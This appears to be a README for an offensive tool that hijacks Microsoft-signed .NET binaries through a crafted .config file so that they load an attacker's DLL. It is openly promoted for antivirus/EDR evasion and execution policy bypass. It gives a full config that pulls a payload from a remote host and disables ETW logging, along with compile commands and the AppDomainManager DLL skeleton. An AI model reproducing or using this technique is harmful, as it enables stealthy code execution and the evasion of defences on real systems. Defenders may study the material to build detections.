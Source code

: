 # .NetConfigLoader

List of .Net application signed by Microsoft that can be used to load a dll via a .config file. Ideal for EDR/AV evasion and execution policy bypass.

```
<configuration>
   <runtime>
      <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
         <dependentAssembly>
            <assemblyIdentity name="DLLNAME" publicKeyToken="deadbeef1337" culture="neutral" />
            <codeBase version="0.0.0.0" href="https://mr.un1k0d3r.world/payload"/>
         </dependentAssembly>
      </assemblyBinding>
      <etwEnable enabled="false" />
      <appDomainManagerAssembly value="DLLNAME, Version=0.0.0.0, Culture=neutral, PublicKeyToken=deadbeef1337" />
      <appDomainManagerType value="CLASSNAME" />
   </runtime>
</configuration>
```

Example:

`msdeploy.exe` you need to create `msdeploy.exe.config` and add the XML data provided above.

# List of .Net Signed Microsoft Binaries 

952 files on my system. List here: [Signed Binaries](https://raw.githubusercontent.com/Mr-Un1k0d3r/.NetConfigLoader/main/signed.txt)

# Compiling the DLL

The DLL needs to have strong name

`sn.exe -k key.snk`

`csc.exe /t:library /keyfile:key.snk /out:my.dll Program.cs`

Getting the strong name information for the .config file

`PS> [System.Reflection.AssemblyName]::GetAssemblyName("C:\full\path\to\dll\my.dll").FullName`

# The DLL Structure

```
using System;
 
public sealed class CLASSNAME : AppDomainManager
{
    
    public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
    {  
         
        Program.Main(null);
          
        return;
    }
}
```
